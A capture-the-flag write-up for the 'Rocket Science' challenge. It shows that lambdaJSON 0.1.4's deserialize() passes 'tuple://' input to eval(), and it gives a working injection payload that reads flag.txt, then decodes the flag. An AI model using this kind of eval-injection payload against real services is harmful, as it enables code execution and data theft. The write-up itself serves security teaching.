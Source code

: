 ```yaml
---
description: Code injection vulnerability in lambdaJSON
---
```


# Rocket Science

## Description

Welcome to Rocket Science! In this class, we will learn all about rockets. But first, let's revise your numbers!

`nc 20.198.209.142 55020`

_The flag is in the flag format: STC{...}_

**Author: zeyu2001**

{% file src="../../.gitbook/assets/requirements.txt" caption="requirements.txt" %}

{% file src="../../.gitbook/assets/rocket\_science.py" caption="rocket\_science.py" %}

## Solution

The requirements file contains only a single dependency.

```text
lambdajson == 0.1.4
```

Let's take a look at the part of the source code in which this is used.

```python
elif ipt == '3':
	
		print("Enter saved numbers:")
		
		try:
			numbers = lj.deserialize(input('> '))
			
			if type(numbers) == tuple and all(type(x) == int for x in numbers):
				print(numbers)
				
			else:
				print("Don't you know what numbers are?")
			
		except:
			print("Invalid input!")
```

We can see that `lj.deserialize()` is called directly on the user input.

It's always a good idea to check dependencies for vulnerabilities, so let's go to the [PyPi page](https://pypi.org/project/lambdaJSON/) for lambdaJSON. If version 0.1.4 is vulnerable, then we should expect later versions to issue security fixes. 

On the [release notes](https://pypi.org/project/lambdaJSON/0.1.5/) from version 0.1.5, we find our vulnerability.

![](../../.gitbook/assets/screenshot-2021-07-24-at-4.00.39-pm.png)

Under the "Changes from previous" section:

> Security fix. Using ast.literal\_eval as eval.

From the release history, we can find out when this fix was released.

![](../../.gitbook/assets/screenshot-2021-07-24-at-4.03.52-pm.png)

This allows us to find the [GitHub commit](https://github.com/pouya-eghbali/lambdaJSON/commit/0d3bcb8bf3388c90819f0f24c9865bc8d4d8b91e) for this fix.

![](../../.gitbook/assets/screenshot-2021-07-24-at-4.05.24-pm.png)

Great! We have found the source code for the vulnerable version of the package. In the [source code](https://github.com/pouya-eghbali/lambdaJSON/blob/05d8d92916cdb9df20b83265c6ccd38d6b29d52b/lambdaJSON.py), we find that the `restore()` function used by `deserialize()` uses `eval()`!

```python
restore = lambda obj:          (isinstance(obj, str) 
                        and    (lambda x: x.startswith('bytes://') 
                        and    bytes(x[8:], encoding = 'utf8') 
                        or     x.startswith('int://') 
                        and    int(x[6:]) 
                        or     x.startswith('float://') 
                        and    float(x[8:])
                        or     x.startswith('long://') 
                        and    long(x[7:])
                        or     x.startswith('bool://') 
                        and    eval(x[7:]) 
                        or     x.startswith('complex://')
                        and    complex(x[10:])
                        or     x.startswith('tuple://') 
                        and    eval(x[8:]) or x)(obj) 
                        or     isinstance(obj, list) 
                        and    [restore(i) for i in obj] 
                        or     isinstance(obj, dict) 
                        and    {restore(i):restore(obj[i]) for i in obj} 
                        or     obj)

...

deserialize = lambda obj: restore(json.loads(obj))
```

Note that the deserialized output must be a tuple of integers.

```python
if type(numbers) == tuple and all(type(x) == int for x in numbers):
				print(numbers)
```

The vulnerable version of `deserialize()` will strip the starting `tuple://` and `eval()` the rest of the input string.

So, if we use the following payload:

```text
"tuple://(int.from_bytes(open('flag.txt').read().encode(), byteorder='big'), 2)"
```

we will get the integer representation of the flag.

![](../../.gitbook/assets/screenshot-2021-07-24-at-4.16.35-pm.png)

The flag is `STC{3v4l_1s_3v1l_00e80002e832f357cf5c05ee114a5cb40e746757}`

```text
➜  ~ python3
Python 3.9.5 (default, May  4 2021, 03:36:27)
[Clang 12.0.0 (clang-1200.0.32.29)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> from Crypto.Util.number import long_to_bytes
>>> long_to_bytes(3969309506657081582967368110556498469050796930805813227720771571473136717745745293677237528859886779701434271164439572744813346302117987974410)
b'STC{3v4l_1s_3v1l_00e80002e832f357cf5c05ee114a5cb40e746757}\n'
>>>
```

